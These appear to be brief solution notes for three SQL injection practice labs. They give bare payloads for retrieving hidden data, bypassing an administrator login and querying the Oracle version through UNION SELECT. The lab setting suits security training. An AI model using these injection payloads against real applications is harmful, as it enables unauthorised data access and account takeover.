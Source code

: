 
## Lab1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

>**Q. SELECT * FROM products WHERE category = 'Gifts' AND released = 1 **

```sh
'+OR+1=1--
```

## Lab2: SQL injection vulnerability allowing login bypass
>**Q. To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user. **

```sh
administrator'--
```
## Lab3: SQL injection attack, querying the database type and version on Oracle
```sh
'+UNION+SELECT+'abc','def'+FROM+dual--
```
```sh
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```
